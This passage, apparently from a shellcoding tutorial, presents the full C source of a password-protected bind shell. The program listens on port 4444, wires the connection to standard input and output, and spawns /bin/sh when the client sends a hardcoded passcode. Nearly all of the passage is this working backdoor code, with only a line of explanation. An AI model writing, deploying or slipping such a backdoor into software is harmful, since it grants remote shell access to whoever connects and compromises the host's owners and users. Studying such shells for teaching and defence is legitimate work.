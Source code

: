 If the passcode from the connection doesn't match with the predefined terminate the program.

```c
else
{
        exit(-1);
}
```

The whole `C` program is the following:

```c
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <stdlib.h>

int main(int argc, char **argv)
{

	char *p = "Password";
	int length = strlen(p);

	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	struct sockaddr_in address = {
		.sin_family = AF_INET,
		.sin_port = htons(4444),
		.sin_addr = INADDR_ANY
	};

	bind(sockfd, (struct sockaddr*) &address, sizeof(address));

	listen(sockfd, 0);

	int acceptfd = accept(sockfd, NULL, NULL);
	
	dup2(acceptfd, 0);
    dup2(acceptfd, 1);
    dup2(acceptfd, 2);

	char pass[64];
	read(acceptfd, pass, 64);
	
	if (strncmp(pass, p, length) == 0)
	{
		execve("/bin/sh", NULL, NULL);
	}
	else
	{
		exit(-1);
	}
	
	return 0;
}
```
